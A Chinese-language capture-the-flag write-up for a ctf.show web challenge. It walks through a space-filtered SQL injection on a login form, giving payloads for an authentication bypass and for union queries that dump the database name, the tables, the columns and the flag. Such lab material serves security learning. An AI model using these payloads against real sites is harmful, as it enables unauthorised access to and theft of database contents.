 ## web6

~~~ txt
ctf.show WEB模块第6关是一个SQL注入漏洞,注入点是单引号字符型注入,并且过滤了空格,我们可以使用括号()或者注释/**/绕过
~~~

![web6_1](./img/web6_1.PNG)

由于是基础题，这种带输入框的一看就是<code>sql注入</code>



+ 首先尝试万能账号如下，注意使用括号<code>()</code>替换空格，用户名输入以下<code>payload</code>而密码随便输

~~~ shell
a'or(true)#
~~~

![web6_2](./img/web6_2.PNG)



成功登录

![web6_3](./img/web6_3.PNG)



+ 使用联合注入获取当前使用的数据库，用户名注入以下<code>payload</code>，密码随便输

~~~ shell
a'or(true)union(select(1),database(),3)#
~~~

![web6_4](./img/web6_4.PNG)

成功爆出数据库名



+ 爆表

~~~ shell
a'or(true)union(select(1),(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web2')),3)#
~~~

![web6_5](./img/web6_5.PNG)

成功爆出数据表



+ 爆列

~~~ shell
a'or(true)union(select(1),(select(group_concat(column_name))from(information_schema.columns)where((table_schema='web2')and(table_name='flag'))),3)#
~~~

![web6_6](./img/web6_6.PNG)

成功爆破出数据列



+ 爆数据

~~~ shell
a'or(true)union(select(1),(select(flag)from(flag)),3)#
~~~

![web6_7](./img/web6_7.PNG)

成功夺旗
